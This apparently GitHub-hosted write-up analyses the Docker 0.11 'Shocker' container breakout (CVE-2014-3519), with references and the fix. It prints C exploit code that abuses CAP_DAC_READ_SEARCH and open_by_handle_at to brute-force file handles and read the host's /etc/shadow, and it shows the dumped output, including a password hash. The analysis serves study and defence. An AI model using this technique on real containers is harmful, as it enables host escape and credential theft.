 ##Docker 0.11 - VMM-Container Breakout

##category：
container breakout   
local security policy bypass 


##core problem：
The core problem is misconfigured permissions (CAP_DAC_READ_SEARCH) that are granted to the container process, and illustrates how container-level virtualization can be tricky to configure. To be fair, this isn’t necessarily a Docker specific problem (it could be any misconfigured container), and it should also be pointed out that this was fixed in Docker 1.0.0.


##analysis：
Before the 0.11, docker use the blocklist to config  container's capabiluties.  

The function open_by_handle_at()函 has  CAP_DAC_READ_SEARCH capabilities lead to this case.  

More info about CAP_DAC_READ_SEARCH, see [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html)

CAP_DAC_READ_SEARCH:

    * Bypass file read permission checks and directory read and
      execute permission checks;
    * Invoke open_by_handle_at(2).

If open_by_handle_at has CAP_DAC_READ_SEARCH , he can read any files and directory in the filesystem   

the define [open_by_handle_at](http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html)：

    int open_by_handle_at(int mount_fd, struct file_handle *handle,int flags);

- mount_fd     file descriptor for any object (file,directory, etc.) in the mounted filesystem
- file_handle  the file_handle struct 
- flags   The flags argument is as for open(2).

see [file_handle](http://lxr.free-electrons.com/source/include/linux/fs.h#L877):   


     struct file_handle {
          unsigned int  handle_bytes;   /* Size of f_handle [in, out] */
          int           handle_type;    /* Handle type [out] */
           unsigned char f_handle[0];    /* File identifier (sized by
                                                    caller) [out] */
        };
    

f_handle[0] is eight bit inode in the file_handle 

In most filesystem, the root inode(e.g: /) almost always is 2. and uses that as a base point to traverse the filesystem:


##exp：
we want to cat /etc/shadow:

1: fill the root diretcory info 

    struct my_file_handle root_h = {
            .handle_bytes = 8,
            .handle_type = 1,
            .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
            //set the inode 2
        };

2: 
open a file on the host, get the flle description 

    if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
        die("[-] open");

3: 
use the file description, root file info, exec  "cat /ect/shadow"

    if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
 
find the dir：  

        
        if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
            die("[-] open_by_handle_at");
     
        if ((dir = fdopendir(fd)) == NULL)
            die("[-] fdopendir");
        for (;;) {
           
            de = readdir(dir);
            if (!de)
                break;
            fprintf(stderr, "[*] Found %s\n", de->d_name);
            //compare the dirname 
            if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
                fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
                ino = de->d_ino;
                break;
            }
        }
find out  the /etc ，get the /etc'inode number   

try the all inode numbers，find the file: 

        if (de) {
           
            for (uint32_t i = 0; i < 0xffffffff; ++i) {
                outh.handle_bytes = 8;
                outh.handle_type = 1;
                memcpy(outh.f_handle, &ino, sizeof(ino));//get the '/etc''s inode
                memcpy(outh.f_handle + 4, &i, sizeof(i)); //only try the last 4 bit 
                if ((i % (1<<20)) == 0)
                    fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
                if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                    closedir(dir);
                    close(fd);
                    dump_handle(&outh);
                    return find_handle(bfd, path, &outh, oh);
                }
            }
        }

4: read the file data 

        
        if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
            die("[-] open_by_handle");
        memset(buf, 0, sizeof(buf));
        if (read(fd2, buf, sizeof(buf) - 1) < 0)
            die("[-] read");


result:

    root:!:15597:0:99999:7:::
    daemon:*:15597:0:99999:7:::
    bin:*:15597:0:99999:7:::
    sys:*:15597:0:99999:7:::
    sync:*:15597:0:99999:7:::
    games:*:15597:0:99999:7:::
    man:*:15597:0:99999:7:::
    lp:*:15597:0:99999:7:::
    mail:*:15597:0:99999:7:::
    news:*:15597:0:99999:7:::
    uucp:*:15597:0:99999:7:::
    proxy:*:15597:0:99999:7:::
    www-data:*:15597:0:99999:7:::
    backup:*:15597:0:99999:7:::
    list:*:15597:0:99999:7:::
    irc:*:15597:0:99999:7:::
    gnats:*:15597:0:99999:7:::
    nobody:*:15597:0:99999:7:::
    libuuid:!:15597:0:99999:7:::
    syslog:*:15597:0:99999:7:::
    messagebus:*:15597:0:99999:7:::
    ntp:*:15597:0:99999:7:::
    sshd:*:15597:0:99999:7:::
    vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
    vboxadd:!:15597::::::
    statd:*:15597:0:99999:7:::


##poc：  
test [poc](http://stealth.openwall.net/xSports/shocker.c)


##version：
docker version <= 0.11 


##fix bug 
docker official discuss use the whitelist to Genular capabilities, see [Granular capabilities / priviledged whitelist](https://github.com/docker/docker/issues/2080)  

remove the capabilities, see [dockerinit: drop capabilities](https://github.com/docker/docker/pull/3015/files)  


##also see：  
- [CVE-2014-3519](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3519)


##links:
- http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html
- http://man7.org/linux/man-pages/man7/capabilities.7.html
- http://stealth.openwall.net/xSports/shocker.c
- https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3#.80qhbidek
- https://blog.docker.com/2014/06/docker-container-breakout-proof-of-concept-exploit/